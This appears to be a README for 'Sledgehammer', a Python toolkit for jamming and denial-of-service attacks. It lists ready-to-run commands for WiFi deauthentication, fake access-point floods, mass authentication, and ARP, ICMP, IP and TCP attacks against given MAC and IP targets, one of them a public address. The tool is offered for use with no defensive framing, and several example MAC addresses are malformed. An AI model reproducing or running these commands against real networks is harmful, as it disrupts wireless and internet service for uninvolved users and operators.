 ### General information
Sledgehammer is collection of Jammer/DoS tools for various protocols. Those include at minimum:

- Wifi (deauthentication, AP simulation)
- arp
- ip
- icmp
- tcp


### Prerequisites
- Python 3.x
- Pypacker ('pip install pypacker' or clone and 'python setup.py install')

### Installation
Just download and execute.

### Usage examples
Get general help via 'python sledgehammer.py --help'.
Depending on attack mode parameters can vary. See mode-parameters for more info.

- WiFI DoS via smart deauthentication
python sledgehammer.py --mode wifi_deauth --iface_name wlan1 --count 9999

- WiFi DoS via mass fake APs
python sledgehammer.py --mode wifi_ap --iface_name wlan1 --channels 1 --count 9999

- WiFi DoS via mass auth
python sledgehammer.py --mode wifi_auth --iface_name wlan1 --mac_dst 00:11:22:33:44:55:66 --channels 4 --count 9999

- ARP
  python sledgehammer.py --mode arp --iface_name wlan1 --mac_dst 00:11:22:33:44:55 --ip_dst 192.168.178.1

- ICMP
  python sledgehammer.py --mode icmp --iface_name wlan1 --mac_dst 00:11:22:33:44:55:66 --ip_dst 192.168.178.1

- IP
  python sledgehammer.py --mode ip --iface_name wlan0 --mac_dst 00:11:22:33:44:55:66 --ip_dst 192.168.178.123 --count 9999

- TCP
  python sledgehammer.py --mode tcp --iface_name wlan1 --mac_dst 00:11:22:33:44:55:66 --ip_dst 193.99.144.80 --port_dst 443
